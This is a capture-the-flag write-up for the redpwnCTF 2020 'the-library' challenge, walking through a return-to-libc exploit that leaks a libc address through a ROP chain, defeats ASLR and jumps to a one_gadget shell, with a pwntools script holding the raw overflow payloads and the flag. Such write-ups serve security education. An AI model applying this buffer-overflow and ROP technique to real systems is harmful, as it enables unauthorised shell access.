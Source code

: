 ```yaml
---
layout: post
title: "the-library"
author: "raghul-rajasekar"
---
```


There's not a lot of useful functions in the binary itself. I wonder where you can get some...
`nc 2020.redpwnc.tf 31350`

**Files:**
- [the-library]({{site.baseurl}}/assets/the-library/the-library)
- [the-library.c]({{site.baseurl}}/assets/the-library/the-library.c)
- [libc.so.6]({{site.baseurl}}/assets/the-library/libc.so.6)

# Solution

Let's take a look at the disassembly of `the-library` using IDA:

![secret-flag disassembly]({{ site.baseurl }}/assets/the-library/the-library.png)

As the program doesn't interact with the flag in any way, it seems our only option is to create a reverse shell to access the files on the server. Running `checksec the-library` reveals that NX is enabled, so we will have to execute a [return-to-libc attack](https://en.wikipedia.org/wiki/Return-to-libc_attack). Since we are also provided the `libc.so.6` file, we can use the [`one_gadget`](https://github.com/david942j/one_gadget) tool to identify possible addresses to return to which will invoke a reverse shell.

There's one small catch though: ASLR is enabled. This means that we will first have to find the offset at which `libc` is loaded and add the address of our gadget to it to get the final return address, which will then be inserted into the stack using buffer overflow. How do we do this, considering that the second step depends on the first? I wasn't sure how to go about this until [this write-up](https://made0x78.com/bseries-ret2libc/) offered a simple solution: leak some address from `libc`, return to the beginning of `main` and perform a second buffer overflow to jump to the gadget.

A candidate address to leak is that of `setbuf` (GOT table entry at `0x601020`). In order to leak the address, we will have to stitch a few gadgets together on the stack. The order I chose is
```
<-- (Stack extends this way) pop edi <-- 0x601020 <-- puts <-- address of main
```
>Note: I found the gadget `pop edi` using [`ROPgadget`](https://github.com/JonathanSalwan/ROPgadget) on the `the-library` binary itself; hence, its address is known. The call to `puts` is made by jumping to its PLT entry.

In this way, we can find the offset at which `libc` is loaded (since we can also find the offset of `setbuf` within `libc.so.6`, which turns out to be `0x884d0`). We then perform a second buffer overflow to jump to the gadget at `0x4f2c5` in `libc` identified by `one_gadget` (thankfully, the required conditions for the gadget that the stack must be aligned to 16 bytes and `rcx` must be zeroed out were satisfied). The overall process looks like this:

```python
from pwn import remote
p = remote('2020.redpwnc.tf', 31350)
p.read()
p.write('abcdabcdabcdabcdabcdabcd\x33\x07\x40\x00\x00\x00\x00\x00\x20\x10\x60\x00\x00\x00\x00\x00\x20\x05\x40\x00\x00\x00\x00\x00\x37\x06\x40\x00\x00\x00\x00\x00')  # pop edi; puts; go back to main;
ret = p.read()
hex(int(ret[47:41:-1].hex(), 16) - int('884d0', 16) + int('4f2c5', 16))
p.write('abcdabcdabcdabcdabcdabcd\xc5\x82\x21\x25\x9e\x7f\x00\x00\n')  # Ended up calculating the gadget address manually
p.interactive()  # do whatever you want with shell here
```

# Flag

`flag{jump_1nt0_th3_l1brary}`

